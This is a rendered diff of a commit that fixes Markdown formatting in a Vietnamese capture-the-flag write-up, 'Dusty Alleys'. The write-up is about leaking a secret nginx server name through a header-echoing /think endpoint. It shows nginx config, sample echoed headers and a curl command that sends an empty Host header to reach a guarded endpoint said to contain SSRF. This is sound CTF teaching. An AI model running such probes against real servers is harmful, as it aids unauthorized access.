

Before and after one commit to toobunbo/toobunbo.github.io, a Markdown page: Resource/Writeup/dustyalleys-http-1-0.md, 2 parts joined by grey strips. Rendered like a GitHub page.

Commit message:
Fix markdown syntax in dustyalleys writeup

````diff
--- a/Resource/Writeup/dustyalleys-http-1-0.md
+++ b/Resource/Writeup/dustyalleys-http-1-0.md
@@ -15,9 +15,8 @@ cover: "../uploads/toobunbo_Thumbwu.png"
 ## Dusty Alleys - HTTP 1.0 so stupid
 ### Solution
 
-- Server config /alley và /think `listen 80 default_server;
-        server_name alley.$SECRET_ALLEY;` nhưng chỉ có ` server_name guardian.$SECRET_ALLEY;` cho `/guardian`
-=> Ta cần `$SECRET_ALLAY` để truy cập endpoint /guardian ~~nơi chứa SSRF~~
+- Server config `/alley` và `/think` có `listen 80 default_server; server_name alley.$SECRET_ALLEY;` nhưng chỉ có `server_name guardian.$SECRET_ALLEY;` cho `/guardian`
+=> Ta cần `$SECRET_ALLAY` để truy cập endpoint `/guardian` ~~nơi chứa SSRF~~
 ```config
 server {
         listen 80 default_server;
@@ -65,12 +64,12 @@ router.get("/think", async (req, res) => {
   return res.json(req.headers);
 });
 
-\\Exam response
+// Exam response
 {
    "host":"94.237.48.147",
    "x-real-ip":"10.30.18.144",
    "x-forwarded-for":"10.30.18.144",
-   "x-forwarded-for:"http",
+   "x-forwarded-proto":"http",
    "connection":"close",
    "accept-language":"en-US,en;q=0.9",
    "upgrade-insecure-requests":"1",
@@ -80,8 +79,8 @@ router.get("/think", async (req, res) => {
    "if-none-match":"W/\"1ff-LedyLfO3NsGXjDLDeEoUwvsCLx8\""
 }
 ```
-- Ta có thể thấy `"x-real-ip", "x-forwarded-for" và "x-forwarded-for" không hề có trong request mà ta gửi. Có thể suy ra được các header này được Proxy thêm vào trong quá trình gửi request
--  Vậy `proxy_set_header Host $host` thì sao, ta có sẵn Host trong header nên /think trả về "host":"94.237.48.147". Vậy nếu ta không truyền "Host", hoặc Host rỗng thì sao? ~~thì Bad Reuqest :)))~~
+- Ta có thể thấy `"x-real-ip"`, `"x-forwarded-for"` và `"x-forwarded-proto"` không hề có trong request mà ta gửi. Có thể suy ra được các header này được Proxy thêm vào trong quá trình gửi request.
+- Vậy `proxy_set_header Host $host` thì sao, ta có sẵn Host trong header nên `/think` trả về `"host":"94.237.48.147"`. Vậy nếu ta không truyền `Host`, hoặc `Host` rỗng thì sao? ~~thì Bad Request :)))~~
 
 ```
 curl -H "Host:" http://94.237.48.147:49291/think
````
